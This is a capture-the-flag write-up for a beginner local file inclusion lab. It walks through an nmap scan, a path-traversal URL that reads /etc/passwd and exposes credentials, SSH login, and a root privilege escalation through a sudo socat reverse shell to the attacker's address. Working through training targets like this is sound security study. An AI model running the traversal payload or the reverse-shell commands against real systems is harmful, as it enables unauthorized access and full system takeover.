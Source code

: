 **A beginner level LFI challenge**

### **TASK 1: Deploy**

This is a beginner level room designed for people who want to get familiar with Local file inclusion vulnerability.

### **TASK 2:Root It**

If you've deployed the VM then try to find the LFI parameters and get the user and root flag.

### **Enumeration**

nmap \-sV \-p\- \-vv <machine\-ip\>

`Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-05 11:19 IST  
Nmap scan report for 10.10.161.174  
Host is up (0.17s latency).  
Not shown: 998 closed ports  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)  
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)  
|\_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)  
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)  
|\_http-title: My blog  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 43.52 seconds`


![](Pastedimage20210605114036.png)

Looks like a pretty standard blog. We see something interesting when we click on one of the `View details >>` buttons though (any of them):

![](Pastedimage20210605114122.png)

Notice in the URL that there’s a parameter called `name`. This indicates that the website is including information from elsewhere, opening us up to a _Local File Inclusion_ attack.

To put it another way. The page we’re looking at is actually empty; however, it’s including content from another page. In the example, that other page is `rfiattack`, however, this will depend on which link you clicked.

Local File Inclusions are when that input isn’t properly sanitised, allowing us to manipulate the link to open other files. Let’s try that now with the `/etc/passwd` file, which will give us a list of user accounts on the machine.

We’ll do this by changing the bit at the end of the URL, after the equals (`=`) sign. However, we can’t just change it to be `/etc/passwd`, because that’s only going to look in the _current_ directory — which obviously won’t contain the file we’re looking for. Instead we’re going to need to go back up to the start of the file system, then head from there.

In the end, we’ll have a payload that looks something like this `../../../../../../etc/passwd`. Notice the numerous occurrences of `../`, which are used to go up a directory — eventually leading us back to the root directory of the file system. The number you use here doesn’t matter, so long as there are enough to guarantee that you’ll be back at the start.

Let’s try adding that now:
`http://<Machine-IP>/article?name=../../../../../../etc/passwd`

![](Pastedimage20210605114331.png)

Contents of `/etc/passwd`

_(Notice that I also used `Ctrl + U` to switch into view-source mode. This gives you a much nicer output)_

Hey, look, there’s a username and password inside a comment in there!

### Exploitation:

**user flag**
*HINT:Try reading linux passwd file.*

We can use the username and password we found to login over SSH as `falconfeast`:

![](Pastedimage20210605113735.png)

### Privilege Escalation:


We start, as always, with `sudo -l` to check our current privileges. Let’s see if we’ve got access to anything that lets us upgrade here:

![](Pastedimage20210605114947.png)

Well ain’t that interesting. Nice easy privesc here too — we’ve got sudo access for `socat`, which is essentially a more powerful (if more complex) version of Netcat. In other words, we can use socat to send ourselves a root shell. First, on your own attacking computer, run this command:

```
socat file:`tty`,raw,echo=0 tcp-listen:1234
```

This will setup a socat _listener_ on your own machine.

On the remote machine, use this command:

```
sudo socat tcp-connect:<your-ip-address>:1234 exec:bash,pty,stderr,setsid,sigint,sane
```


![](Pastedimage20210605120615.png)


### Method 2:

There’s an easier way to complete this challenge — purely through LFI. It turns out that the webserver we exploited at the beginning of the challenge is running with root privileges; which means we’ve already got access to _everything_.  
  
Including both flags:

**User Flag**

![](Pastedimage20210605115211.png)

**Root Flag**

![](Pastedimage20210605115704.png)

